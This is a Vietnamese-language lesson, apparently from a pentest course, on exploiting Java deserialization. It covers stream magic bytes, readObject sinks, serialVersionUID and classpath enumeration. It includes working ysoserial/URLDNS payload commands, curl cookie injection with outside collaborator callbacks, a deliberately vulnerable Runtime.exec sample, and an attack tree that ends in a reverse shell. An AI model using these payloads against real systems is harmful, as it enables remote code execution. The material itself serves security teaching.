

> **Prerequisites**: [[01-serialization-internals|01. Serialization Internals]]
> **Objectives**:
> - Hiểu cơ chế ObjectInputStream.readObject() từ góc nhìn attacker
> - Phân tích magic bytes và nhận biết Java serialized data trong mọi context
> - Nắm rõ serialVersionUID và tại sao nó quan trọng khi xây custom gadget
> - Thực hiện classpath enumeration — bước quyết định chọn gadget chain đúng
>
---

## Động lực

Java deserialization là lớp lỗ hổng gây ra nhiều CVE nghiêm trọng nhất trong lịch sử enterprise software: Apache Commons Collections (2015), Apache Struts, WebLogic, JBoss, Jenkins, OFBiz. Tất cả đều khai thác cùng một primitive: `ObjectInputStream.readObject()` trên untrusted data.

Khác với PHP và Python, Java deserialization yêu cầu phải có **gadget library** phù hợp trong classpath của ứng dụng — không có library → không có chain. Đây là lý do bước classpath enumeration có tính quyết định.

---

## Kiến trúc & Cơ chế

![[img-04-java-objectinputstream-flow.svg]]
*Hình 1: Java ObjectInputStream.readObject() flow — từ byte stream đến gadget chain execution*

### Serialization Format

```java
// Serialize — writeObject()
ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos     = new ObjectOutputStream(baos);
oos.writeObject(myObject); // → AC ED 00 05 sr ...

// Deserialize — readObject() ← ATTACK SURFACE
ObjectInputStream ois = new ObjectInputStream(
    new ByteArrayInputStream(maliciousBytes)
);
Object obj = ois.readObject(); // ← triggers gadget chain
```

**Magic bytes structure**:

| Offset | Bytes | Ý nghĩa |
|--------|-------|---------|
| 0-1 | `AC ED` | STREAM_MAGIC — Java serialization marker |
| 2-3 | `00 05` | STREAM_VERSION — version 5 |
| 4+ | `73 72` | TC_OBJECT, TC_CLASSDESC — class descriptor |

**Nhận biết trong các context**:

```yaml
HTTP Cookie:  rO0ABXNy...  (base64 của AC ED 00 05)
HTTP Body:    rO0ABX...
Hex dump:     00000000: ACED 0005 7372 0032...
Wireshark:    Bytes: ac ed 00 05
```

**Cách detect nhanh trong Burp**:

```bash
1. Intercept request
2. Inspector tab → decode base64 cookie/param
3. Tìm "AC ED 00 05" hoặc readable Java class names (sr, xp, ...)
```

### Giao thức bên trong stream

Sau magic bytes, stream chứa:

```bash
TC_OBJECT (0x73)          → đây là object
TC_CLASSDESC (0x72)       → class descriptor theo sau
  className (utf string)  → ví dụ "java.util.HashMap"
  serialVersionUID (8 bytes)
  classDescFlags
  fields count
  field descriptors
TC_ENDBLOCKDATA (0x78)
TC_NULL (0x70)
[object data / nested objects]
```

### Magic Methods trong Java

| Method | Khi nào kích hoạt | Tầm quan trọng |
|--------|------------------|----------------|
| `readObject(ObjectInputStream)` | Trong `ois.readObject()` — thay thế default behavior | Cao nhất |
| `readResolve()` | Sau `readObject()` hoàn tất | Cao — dùng trong singleton bypass |
| `readObjectNoData()` | Khi stream không chứa data cho class | Thấp |
| `finalize()` | GC collect object | Thấp — không reliable |
| `validateObject()` | Sau deserialization nếu implements ObjectInputValidation | Medium |

**Custom readObject() example**:

```java
class VulnerableClass implements Serializable {
    private String command;

    // Custom readObject — magic method
    private void readObject(ObjectInputStream in)
            throws IOException, ClassNotFoundException {
        in.defaultReadObject(); // restore fields
        // SINK: attacker controls this.command
        Runtime.getRuntime().exec(this.command); // ← RCE
    }
}
```

### serialVersionUID

```java
class MyClass implements Serializable {
    // Option 1: Khai báo tường minh
    private static final long serialVersionUID = 12345678L;

    // Option 2: Không khai báo → JVM tự tính từ class structure
    // → Dễ bị InvalidClassException khi class thay đổi
}
```

> [!warning] Tầm quan trọng cho attacker
> Khi xây custom gadget chain (bài 06), bạn cần **match serialVersionUID** của class trên server. Nếu không match → `InvalidClassException` → exploit fail. Lấy UID bằng `javap -verbose ClassName.class | grep serialVersionUID`.
>
---

## Classpath Enumeration — Bước Quyết Định

### Tại sao classpath quyết định gadget chain?

Gadget chain khai thác code **đã có sẵn** trên server. Nếu server không có `commons-collections` trong classpath → CommonsCollections chains không work. Phải enumerate trước.

### Phương pháp 1: GadgetProbe (Black-box)

```bash
# GadgetProbe gửi serialized object với specific class signatures
# Dùng URLDNS để detect — tạo DNS query nếu class exist
java -jar GadgetProbe.jar \
  --url http://target.htb:8080/endpoint \
  --wordlist classpath-wordlist.txt \
  --collaborator-server burp-collaborator.net
```

Nếu DNS callback nhận được → class đó tồn tại trong classpath.

### Phương pháp 2: Stack trace leak (Error-based)

```bash
# Gửi malformed serialized data
curl -s http://target.htb/endpoint \
  -H "Content-Type: application/x-java-serialized-object" \
  --data-binary $'\xac\xed\x00\x05'

# Nếu app throw exception và leak stack trace:
# java.io.StreamCorruptedException: invalid stream header: ACED0005
#   at java.io.ObjectInputStream.readStreamHeader(ObjectInputStream.java:857)
# Hoặc: java.lang.ClassNotFoundException: com.example.SomeClass
# → Cung cấp class names trong classpath
```

### Phương pháp 3: URLDNS — Universal detection

URLDNS là gadget chain chỉ cần JRE mặc định (không cần external lib):

```bash
# Generate URLDNS payload — test nếu endpoint deserialize
java -jar ysoserial.jar URLDNS http://your-burp-collaborator.net

# Encode và gửi
java -jar ysoserial.jar URLDNS http://your-collab.burpcollaborator.net | base64 -w0 > urldns.txt

# Inject vào cookie và check DNS
curl -s http://target.htb/ -H "Cookie: session=$(cat urldns.txt)"
# Nếu DNS callback → endpoint deserialize! → chuyển sang tìm gadget lib
```

### Phương pháp 4: Whitebox — JAR analysis

```bash
# Nếu có access vào server / container
find / -name "*.jar" 2>/dev/null | grep -E "commons-collections|spring|groovy|beanutils"

# Unzip và check manifest
jar tf application.war | grep "WEB-INF/lib/"
```

### Gadget Library Matrix

| Library | Ysoserial Chain | Affected Versions | Notes |
|---------|----------------|-------------------|-------|
| commons-collections 3.x | CC1, CC3, CC5, CC6, CC7 | ≤ 3.2.1 | CC6 works on most JDK versions |
| commons-collections 4.x | CC2, CC4 | ≤ 4.0 | Dùng PriorityQueue |
| commons-beanutils | CommonsBeanutils1 | ≤ 1.9.2 | Không cần commons-collections |
| spring-core | Spring1, Spring2 | 4.x | Cần spring-beans |
| groovy | Groovy1 | 2.3.x | Cần Groovy trên classpath |
| JRE only | URLDNS | All | DNS only — không có RCE |

---

## Góc nhìn kẻ tấn công

### Attack Decision Tree

```bash
Detect serialized data (AC ED / rO0A)
         ↓
Confirm deserialization (URLDNS → DNS callback)
         ↓
Enumerate classpath (GadgetProbe / error-based / whitebox)
         ↓
Chọn gadget chain → generate payload với ysoserial
         ↓
Inject → confirm RCE (OOB DNS/HTTP trước)
         ↓
Reverse shell
```

### Điểm deserialize phổ biến trong Java apps

| Location | Context | Dấu hiệu |
|----------|---------|----------|
| HTTP Cookie | Web app | Cookie value decode ra `rO0A` |
| HTTP POST body | REST API | Content-Type: application/x-java-serialized-object |
| ViewState | JSF (JavaServer Faces) | `javax.faces.ViewState` hidden field |
| JMX | Management interface | Port 9010, 1099 |
| RMI | Remote Method Invocation | Port 1099 |
| XMLRPC | `/xmlrpc`, `/webservices` | XML với `<serializable>` tag |
| AMF | Flash/Flex remoting | Content-Type: application/x-amf |
| JBoss/WildFly | Invoker servlet | `/invoker/EJBInvokerServlet` |

---

## Pentest Checklist

```yaml
□ Scan tất cả HTTP traffic: tìm base64 decode → "rO0A" prefix
□ Check tất cả cookies: decode từng giá trị
□ Hexdump binary POST bodies: tìm AC ED 00 05
□ Nmap scan: port 1099 (RMI), 9010/4848 (JMX), 8080/8443 (web)
□ Tìm exposed endpoints: /invoker/, /jmx-console/, /xmlrpc, /webservices/
□ Gửi URLDNS payload → xác nhận deserialization có xảy ra
□ Check server headers: X-Powered-By, WL-Application-Server-Version (WebLogic)
□ Error-based classpath leak: gửi malformed stream → đọc stack trace
□ GadgetProbe nếu có Burp Collaborator
□ Whitebox: find .jar trong WEB-INF/lib/
```

---

## Kết nối

